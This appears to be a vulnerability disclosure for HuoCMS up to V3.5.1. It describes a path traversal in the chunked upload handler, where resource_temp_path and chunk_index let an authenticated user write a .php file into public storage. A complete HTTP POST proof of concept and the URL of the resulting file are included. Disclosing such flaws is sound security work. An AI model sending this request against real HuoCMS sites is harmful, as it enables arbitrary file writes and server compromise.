 BUG_Author: yggcwhat

Affected version:  Huocms

Vendor:https://huocms.com/


Source Code Address:  https://gitee.com/digital-flag/huocms

Vulnerability File: Upload.php

Affected Version：HuoCMS - <=V3.5.1

Description:
In the sliceUploadAndSave method of AttachmentController.php (located under app -> controller -> backend), the resource_type parameter is validated against a whitelist of allowed file extensions (e.g., txt, png, etc.). Subsequently, the method invokes tmpMove from Upload.php (under app -> service -> upload).

The tmpMove method first creates a file. However, the $filename parameter (controlled by the resource_temp_path input parameter, which is user-controllable) can be exploited to traverse directories (e.g., using ../) to create folders. The method then performs a move operation, placing the file into the created directory. The final filename is generated by appending an underscore and the $pos suffix, where $pos is controlled via the chunk_index parameter passed during the call (refer to the actual parameter passing for details).

This creates a vulnerability where an attacker could manipulate resource_temp_path and chunk_index to write files to arbitrary locations with controlled filenames.

Details:
app >controller >backend > AttachmentController.php：sliceUploadAndSave
![image](https://github.com/user-attachments/assets/24c5022b-5dbf-410b-96fd-ccbe93af5dbb)

app >service >upload > Upload.php：tmpMove
![image](https://github.com/user-attachments/assets/d0ba84b2-a5db-498f-95f7-e14a4c90c7cd)
![image](https://github.com/user-attachments/assets/e72806d6-1a06-467b-b040-172109bcb710)



This vulnerability is a backend issue that requires logging into the backend with a token to invoke. Please set up and log in by yourself.

POC：
```
POST /attachment/sliceUploadAndSave HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: token
Content-Type: multipart/form-data; boundary=----geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Length: 990
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_chunk"; filename="blob"
Content-Type: application/octet-stream

1
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="chunk_total"

1
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="chunk_index"

.php
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_temp_basename"

.php
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_temp_path"

../../../public/storage/image/20250415/
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_type"

txt
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_name"

11.png
------geckoformboundary13d3934e0299a09e8748d146bfb9d483--
```

![image](https://github.com/user-attachments/assets/b670c180-df77-4e0d-9e13-7e02c7e8308e)


Access URL:  
http://127.0.0.1/storage/image/20250415/%5f%5f.php
![image](https://github.com/user-attachments/assets/be060299-23ee-470d-abaa-57550329ba34)


Reference：
http://huocms.com
https://github.com/yggcwhat/CVE-2025-46078/edit/main/README.md
https://www.huocms.com/



